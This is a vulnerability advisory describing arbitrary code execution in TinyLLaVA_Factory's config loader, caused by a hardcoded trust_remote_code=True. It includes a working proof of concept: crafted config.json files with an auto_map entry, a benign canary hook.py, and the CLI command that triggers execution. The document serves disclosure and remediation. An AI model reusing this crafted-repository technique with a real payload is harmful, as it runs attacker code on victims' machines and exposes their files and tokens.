




# TinyLLaVA_Factory 1.0.0 — Arbitrary Code Execution in TinyLlavaConfig._load_text_config

## Summary

TinyLLaVA TinyLLaVA_Factory 1.0.0 (all revisions from the initial public release through current `main`) is affected by an arbitrary code execution issue in the configuration loading stage. `TinyLlavaConfig._load_text_config()` calls `AutoConfig.from_pretrained(..., trust_remote_code=True)` with a repository path (`llm_model_name_or_path`) taken verbatim from the outer `config.json` of the model repository being loaded. A crafted repository whose nested `config.json` carries an `auto_map` entry therefore gets attacker-controlled Python imported and executed during configuration parsing — no model weights are required, and the execution happens before the loader fails on missing weight files.

## Affected Product

| Field | Value |
|---|---|
| Vendor | TinyLLaVA (github.com/TinyLLaVA) |
| Product | TinyLLaVA_Factory |
| Affected versions | All revisions from commit `9e010c0` (2024-05-18, initial release "release tinyllava factory codebase") through `main` HEAD `1abc6ac5e76a68d0fd087a071b56da968e69ca9b` (2026-09-08); package version declared in `pyproject.toml` is 1.0.0; no fix tags exist |
| Component | `tinyllava/model/configuration_tinyllava.py` — `TinyLlavaConfig._load_text_config()` (line 101) |
| Platform | Any OS; Python >= 3.9; transformers pinned `==4.40.1` |
| Vulnerability type | CWE-94: Improper Control of Generation of Code (Code Injection) |

## Root Cause

**Location:** `tinyllava/model/configuration_tinyllava.py:96-103` (`TinyLlavaConfig._load_text_config`)

`TinyLlavaConfig` is instantiated directly from the outer `config.json` of the model repository (transformers resolves `cls.config_class` for `TinyLlavaForConditionalGeneration.from_pretrained()`). Every key of that JSON — including `llm_model_name_or_path` — is attacker-controlled when the repository comes from an untrusted source. `_load_text_config()` then passes this value as a repository path to `AutoConfig.from_pretrained` with `trust_remote_code=True` **hardcoded**, so transformers loads `auto_map.AutoConfig` from the target location as a dynamic module and imports it. Module-level code of the attacker-supplied Python file executes at that moment. The relative path is resolved against the process working directory, but the attacker fully controls the string, so any resolvable nested directory (or absolute path) works.

```python
def _load_text_config(self, text_config=None):
    if self.llm_model_name_or_path is None or self.llm_model_name_or_path == '':
        self.text_config = CONFIG_MAPPING['llama']()
    else:
        # llm_model_name_or_path comes from the outer config.json of the loaded repo;
        # trust_remote_code=True is hardcoded -> dynamic module is imported here
        self.text_config = AutoConfig.from_pretrained(self.llm_model_name_or_path, trust_remote_code=True)
        if text_config is not None:
            self.text_config = self.text_config.from_dict(text_config)
```

## Proof of Concept

### Prerequisites
- A working TinyLLaVA_Factory installation (`pip install -e .` per project README; requires Python >= 3.9, transformers 4.40.1)
- The victim runs the project's standard CLI (`python -m tinyllava.serve.cli`) on a model repository from an untrusted source — the normal community-model workflow
- The PoC below is a benign canary (prints one line); no real payload is included

### Steps to Reproduce

The reproduction below was executed end-to-end on 2026-09-24 in a clean container (`python:3.10-slim`) built from the dependency pins in the project's `pyproject.toml` (torch 2.0.1 CPU build, transformers 4.40.1, tokenizers 0.19.0, peft 0.10.0, accelerate 0.27.2, einops 0.6.1, plus deepspeed 0.14.0 from the `[train]` extra, which `tinyllava.utils` imports unconditionally) with the source pinned at commit `1abc6ac5e76a68d0fd087a071b56da968e69ca9b`. `python -u` only disables stdout buffering so the captured transcript reflects the true execution order; it does not affect program behavior.

1. Create a crafted repository directory with the following layout (no weight files of any kind):

```text
TinyLLaVA-Assistant-3.1B/
|-- config.json            # outer config: llm_model_name_or_path -> nested_llm
`-- nested_llm/
    |-- config.json        # nested config with auto_map
    `-- hook.py            # dynamic module: benign canary executes on import
```

`TinyLLaVA-Assistant-3.1B/config.json`:
```json
{
  "architectures": ["TinyLlavaForConditionalGeneration"],
  "model_type": "tinyllava",
  "llm_model_name_or_path": "nested_llm"
}
```

`TinyLLaVA-Assistant-3.1B/nested_llm/config.json`:
```json
{
  "model_type": "llama",
  "auto_map": { "AutoConfig": "hook.Config" }
}
```

`TinyLLaVA-Assistant-3.1B/nested_llm/hook.py`:
```python
from datetime import datetime, timezone
from transformers import PretrainedConfig

print("[canary] arbitrary code executed during config stage")

with open("poc_canary.txt", "w") as f:
    f.write(
        "TinyLLaVA_Factory config-stage code-execution canary\n"
        "executed at: "
        + datetime.now(timezone.utc).isoformat()
        + "\n"
    )


class Config(PretrainedConfig):
    model_type = "llama"

    def __init__(self, **kwargs):
        super().__init__(**kwargs)
```


This screenshot proves the sample consists only of the three small files above (no model weights) and shows the `auto_map` entry pointing at the benign canary module.

2. From inside the crafted repository directory, launch the project's standard CLI (any existing image file works; the image is only touched after model loading):

```bash
cd TinyLLaVA-Assistant-3.1B
python -u -m tinyllava.serve.cli --model-path . --image-file /path/to/demo.jpg
```


The canary line appears before the `OSError` traceback: attacker-controlled Python already executed inside `TinyLlavaConfig._load_text_config()` when transformers resolved the `auto_map` module, and the process only afterwards aborted on the missing weights.

3. The payload's file write confirms the execution landed in the victim's working directory:



4. Negative control: the identical repository with only the attack field `llm_model_name_or_path` removed from the outer `config.json` (the `nested_llm/hook.py` payload is still present on disk) executes no code — no canary line is printed and no `poc_canary.txt` is created; the run fails only with the same missing-weights error.



### Expected vs Actual
- Expected: a repository without weights fails to load without executing any code shipped inside it; dynamic remote code only runs when the user explicitly opts in with `trust_remote_code=True`.
- Actual: the canary line from `nested_llm/hook.py` prints during configuration parsing and the payload writes `poc_canary.txt` — arbitrary Python has already executed — and only afterwards does the loader abort with `OSError: Error no file named pytorch_model.bin, tf_model.h5, model.ckpt.index or flax_model.msgpack found in directory ..`.

### Sanitized PoC input
```text
Repository layout and file contents as listed above; all names are synthetic
("TinyLLaVA-Assistant-3.1B", "nested_llm", "hook.py"). No hosts, tokens or
personal paths are involved.
```

## Impact

- Confidentiality: High — attacker-controlled code runs with the victim's privileges and can exfiltrate arbitrary data (files, environment variables such as Hugging Face/API tokens, etc.)
- Integrity: High — arbitrary file and system modification in the victim's user context
- Availability: High — arbitrary code can render the environment unusable
- Scope: code execution in the process loading the model; the victim only has to load a crafted model repository, which does not need to contain any weights

## Attack Vector and Severity (CVSS v3.1)

| Metric | Value | Rationale |
|---|---|---|
| Attack Vector | N (Network) | Crafted repositories are typically distributed via the Hugging Face Hub or file shares, i.e. fetched over the network |
| Attack Complexity | L (Low) | No special conditions; any untrusted repo load triggers it |
| Privileges Required | N (None) | No privileges; the attacker only needs to publish a repository |
| User Interaction | R (Required) | The victim must run the loader/CLI on the attacker's repository |
| Scope | U (Unchanged) | Code executes in the victim's own user/security context |
| Confidentiality | H (High) | Full read access via executed code |
| Integrity | H (High) | Full write access via executed code |
| Availability | H (High) | Arbitrary code can destroy the environment |

```
Score: 8.8 (High)
Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H
```

Assumption noted: AV:N reflects the dominant distribution channel (Hub-hosted repositories); if a repository is only handed over on physical media the vector would degrade to AV:L.

## Remediation

- Remove the hardcoded `trust_remote_code=True` in `TinyLlavaConfig._load_text_config` (`tinyllava/model/configuration_tinyllava.py:101`); propagate an explicit `trust_remote_code` flag from the caller / `from_pretrained` kwargs, defaulting to `False`.
- Optionally reject local relative paths (nested in-repository directories) in `llm_model_name_or_path` unless the user explicitly enabled `trust_remote_code`.
- Workaround until patched: do not load model repositories from untrusted sources with TinyLLaVA_Factory.


## References

- Source repository: https://github.com/TinyLLaVA/TinyLLaVA_Factory
- Vulnerable code (pinned to main HEAD): https://github.com/TinyLLaVA/TinyLLaVA_Factory/blob/1abc6ac5e76a68d0fd087a071b56da968e69ca9b/tinyllava/model/configuration_tinyllava.py#L96-L103
- Upstream report: [pending publication]
- CWE: https://cwe.mitre.org/data/definitions/94.html
- Vendor advisory: [none]

